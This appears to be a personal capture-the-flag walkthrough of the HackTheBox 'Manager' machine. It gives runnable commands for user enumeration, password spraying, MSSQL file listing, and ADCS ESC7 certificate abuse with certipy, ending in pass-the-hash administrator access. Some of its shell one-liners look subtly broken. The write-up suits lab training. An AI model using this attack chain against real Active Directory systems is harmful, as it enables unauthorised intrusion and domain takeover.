 2024
### NMAP

```
sudo nmap -sC -sV -oN nmap-manager 10.10.11.236
```

When you see this..think of kerberoasting
![[HackTheBox/Windows/attachments/Pasted image 20250521194905.png]]

### Enumerate for Initial Access

#### Kerbrute 
Identify valid users with user list 
```
./kerbrute userenum --dc 10.10.11.236 -d manager.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt
```

#### NetExec
RID bruteforce valid users 
```
netexec smb 10.10.11.236 -u 'guest' -p '' --rid-bruteforce
```

![[HackTheBox/Windows/attachments/Pasted image 20250521204615.png]]

![[HackTheBox/Windows/attachments/Pasted image 20250521204648.png]]
This is basically performing lookupsids over and over.

Extracting all valid usernames from this netexec output 

```
grep User_output.txt | awk '{$6}' 
```

![[HackTheBox/Windows/attachments/Pasted image 20250521205142.png]]

```
grep User_output.txt | awk '{$6}' | awk -F\\ '{print $2}'
```
![[HackTheBox/Windows/attachments/Pasted image 20250521205302.png]]

Then sort and grep for everything that ends in $
```
grep User_output.txt | awk '{$6}' | awk -F\\ '{print $2}' | sort -u| grep -v '\$$'
```

![[HackTheBox/Windows/attachments/Pasted image 20250521205418.png]]
Save this output to users.txt

Change all uppercase to lowercase
```
cat users.txt | tr '[:upper:]' '[:lower:]'
```
![[HackTheBox/Windows/attachments/Pasted image 20250521210030.png]]
### Initial Access

Use the valid username list to bruteforce users with the password of their username. Found several matches. 


#### NetExec

Bruteforce users with the password of their username (ex: admin:admin)
```
netexec smb 10.10.11.236 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```

![[HackTheBox/Windows/attachments/Pasted image 20250521210125.png]]

Enumerate smb shares with valid credentials
```
netexec smb 10.10.11.236 -u operator -p operator --shares
```

![[HackTheBox/Windows/attachments/Pasted image 20250521210656.png]]
- No shares look interesting

Test login against MSSQL
```
netexec mssql 10.10.11.236 -u operator -p operator
```

![[HackTheBox/Windows/attachments/Pasted image 20250521211013.png]]

Login to MSSQL Server using impacket's MSSQLClient 
```
mssqlclient.py manager/operator:operator@manager.htb -windows-auth
```

![[HackTheBox/Windows/attachments/Pasted image 20250521211322.png]]
### Enumerate for Priv Esc 

Only seeing standard databases
```
SELECT name FROM master..sysdatabases;
```
![[HackTheBox/Windows/attachments/Pasted image 20250521211705.png]]

Read files off the web server using xp_dirtree
```
xp_dirtree C:\
```
![[HackTheBox/Windows/attachments/Pasted image 20250521211814.png]]

Discover a website backup 
```
xp_dirtree C:\inetpub\wwwroot
```
![[HackTheBox/Windows/attachments/Pasted image 20250521211913.png]]

Download this backup by appending it to the website URL 👀
![[HackTheBox/Windows/attachments/Pasted image 20250521212000.png]]

Unzip this file. 

Check out .old-conf.xml and discover a user password
![[HackTheBox/Windows/attachments/Pasted image 20250521212143.png]]

Test these creds using netexec with smb
```
netexec smb 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```
![[HackTheBox/Windows/attachments/Pasted image 20250521212353.png]]
- creds are valid

Test these creds using netexec with winrm
```
netexec winrm 10.10.11.236 -u raven -p 'R4v3nBe5tD3veloP3r!123'
```
![[HackTheBox/Windows/attachments/Pasted image 20250521212516.png]]
- these will work

Use certipy to discover server is exploitable to ADCS ESC7
```
certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
```

![[HackTheBox/Windows/attachments/Pasted image 20250521213417.png]]
![[HackTheBox/Windows/attachments/Pasted image 20250521213437.png]]

### Priv Esc

[Reference](https://seriotonctf.github.io/2024/06/26/ADCS-Attacks-with-Certipy/index.html)

Add officer raven to be able to manage ca's

```
certipy ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven
```

![[HackTheBox/Windows/attachments/Pasted image 20250521214109.png]]

Enable sub-ca template
```
certipy ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

Set upn to administrator and save the private key 

```
certipy req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb
```

![[HackTheBox/Windows/attachments/Pasted image 20250521214630.png]]

Now we can issue a certificate because we are an officer of the ca

```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -issue-request 13
```

![[HackTheBox/Windows/attachments/Pasted image 20250521214831.png]]

Now retrieve the certificate administrator.pfx
```
certipy-ad req -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -retrieve 13
```

![[HackTheBox/Windows/attachments/Pasted image 20250521214949.png]]

Get a TGT from the domain using pfx and then get the NT hash for administrator

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```

![[HackTheBox/Windows/attachments/Pasted image 20250521215101.png]]

Ensure our local clock is in sync with DCs

```
sudo ntpdate 10.10.11.236
```

#### PSExec 

```
psexec.py -hashes <NT HASH>:<NT HASH> administrator@10.10.11.236
```

![[HackTheBox/Windows/attachments/Pasted image 20250521215459.png]]
⭐got root⭐